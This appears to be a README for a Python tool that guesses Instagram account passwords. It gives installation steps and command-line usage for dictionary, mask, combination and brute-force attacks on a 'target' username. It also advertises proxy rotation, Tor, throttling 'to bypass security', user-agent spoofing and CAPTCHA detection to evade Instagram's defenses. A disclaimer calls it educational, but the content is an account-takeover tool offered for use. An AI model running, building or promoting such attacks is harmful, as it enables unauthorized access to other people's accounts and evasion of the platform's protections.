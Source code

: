 # 🔐 Hack Instagram Password - Security Testing Tool

**Advanced Instagram Password Security Assessment Tool | Educational Use Only | Version 2025.1**

![Python](https://img.shields.io/badge/Python-3.8%2B-blue)
![Security](https://img.shields.io/badge/Security-Testing-red)
![License](https://img.shields.io/badge/License-Educational%20Use-only)

## ⚠️ IMPORTANT LEGAL DISCLAIMER

**This tool is for EDUCATIONAL and AUTHORIZED SECURITY TESTING purposes ONLY.**

- 🚫 **Illegal Use Prohibited**: Unauthorized testing of accounts you don't own is **ILLEGAL**
- ✅ **Authorized Use Only**: Use only on accounts you own or have explicit written permission to test
- 🔒 **Security Awareness**: Designed to demonstrate password vulnerability and promote better security practices
- ⚖️ **Legal Responsibility**: Users are solely responsible for complying with all applicable laws

**By using this tool, you acknowledge that unauthorized access to computer systems is a criminal offense in most jurisdictions.**

## 🎯 Overview

Hack Instagram Password is an advanced security testing tool designed to demonstrate the vulnerabilities of weak passwords and educate users about cybersecurity threats. This tool performs comprehensive password strength testing using multiple attack vectors that real-world hackers employ.

### 🎓 Educational Purpose
- Demonstrate real-world hacking techniques for security awareness
- Test your own account security strength
- Educate about password vulnerability
- Security professional training

## ✨ Features

### 🔑 Multiple Attack Strategies
- **Dictionary Attacks**: Test common passwords and wordlists
- **Mask Attacks**: Pattern-based password generation
- **Combination Attacks**: Word variations with common suffixes
- **Hybrid Attacks**: Combined approaches for maximum coverage

### 🌐 Advanced Anonymity
- **Proxy Rotation**: Automatic proxy switching to avoid detection
- **Tor Integration**: Complete anonymity through Tor network
- **Request Throttling**: Intelligent rate limiting to bypass security
- **User-Agent Rotation**: Mimic real browser behavior

### 📊 Professional Monitoring
- Real-time attack statistics
- Performance metrics and success rates
- Resource usage monitoring
- Detailed reporting and logging

### 🔒 Security Features
- CSRF token handling
- Instagram API compliance
- Encrypted session management
- Automatic CAPTCHA detection

## 🚀 Installation

### Prerequisites
- Python 3.8 or higher
- pip package manager
- Internet connection

### Step 1: Clone Repository
```bash
git clone https://github.com/your-username/hack-instagram-password.git
cd hack-instagram-password

Step 2: Install Dependencies
bash

pip install -r requirements.txt

Required Packages
text

aiohttp>=3.8.0
requests>=2.28.0
cryptography>=3.4.0
stem>=1.8.0
psutil>=5.9.0
asyncio>=3.9.0

Step 3: Verify Installation
bash

python hack_instagram.py --help

⚡ Quick Start
Basic Password Testing
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt

Anonymous Testing with Tor
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --use-tor

Advanced Multi-threaded Attack
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --threads 4 --use-tor --min-delay 2 --max-delay 5

Proxy-Based Attack
bash

python hack_instagram.py --username your_test_account --password-list passwords.txt --proxy-list proxies.txt --threads 3

🔥 Attack Methods
1. Dictionary Attacks

Test passwords from comprehensive wordlists:
bash

# Using common passwords list
python hack_instagram.py --username target --password-list common_passwords.txt

# Using customized wordlist
python hack_instagram.py --username target --password-list custom_list.txt

2. Mask Attacks

Pattern-based password generation:
python

# Example mask patterns:
?l?l?l?d?d?d  # 3 letters + 3 digits (abc123)
?u?l?l?l?d?d  # 1 uppercase + 3 lowercase + 2 digits (Abcd12)
?l?l?l?l?s?d  # 4 letters + 1 special char + 1 digit (abcd!1)

3. Combination Attacks

Intelligent password variations:
bash

# Base words with common modifications
python hack_instagram.py --username target --strategy combination --base-words "password,admin,user"

4. Brute Force Attacks

Complete character set testing (use with caution):
bash

# Not recommended for production - educational only
python hack_instagram.py --username target --strategy brute --min-length 4 --max-length 8